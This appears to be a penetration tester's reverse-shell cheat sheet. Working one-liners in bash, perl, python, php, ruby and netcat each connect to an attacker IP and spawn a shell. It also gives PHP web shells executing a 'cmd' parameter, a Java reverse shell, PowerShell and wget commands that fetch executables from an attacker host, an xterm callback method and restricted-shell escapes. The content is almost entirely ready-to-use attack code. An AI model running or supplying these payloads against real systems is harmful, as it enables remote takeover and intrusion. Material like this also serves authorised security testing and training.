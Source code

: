 ```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```

```nc -e /bin/sh 10.11.0.130 443```
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

https://highon.coffee/blog/reverse-shell-cheat-sheet/

#### PHP
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

#### JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Powershell
Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

#### xterm
"One of the simplest forms of reverse shell is an xterm session. 
The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001:

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 

One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

#### Shell Escape; from Shellcatraz
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
``
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
